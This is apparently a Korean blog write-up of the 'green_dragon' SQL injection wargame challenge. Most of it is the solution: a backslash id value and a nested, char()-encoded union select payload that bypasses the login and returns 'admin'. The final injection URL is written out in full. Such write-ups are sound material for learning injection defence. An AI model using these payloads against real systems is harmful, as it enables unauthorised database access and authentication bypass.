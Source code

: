 

# [25] green_dragon

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcvzy13%2FbtrocSsciXb%2FA4XrMQJ1aQFkquIV3RGSK1%2Fimg.png">

## 풀이

[1] id 페이로드

```
\
```


[2] pw 페이로드

```
union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

<br>

따라서, 최종 페이로드는 다음과 같다.

```
?id=\&pw=union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

## 결과

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbZVUrx%2FbtrocqCH4Rh%2FBlqAkOMkvzBAm7s9AwJQUk%2Fimg.png">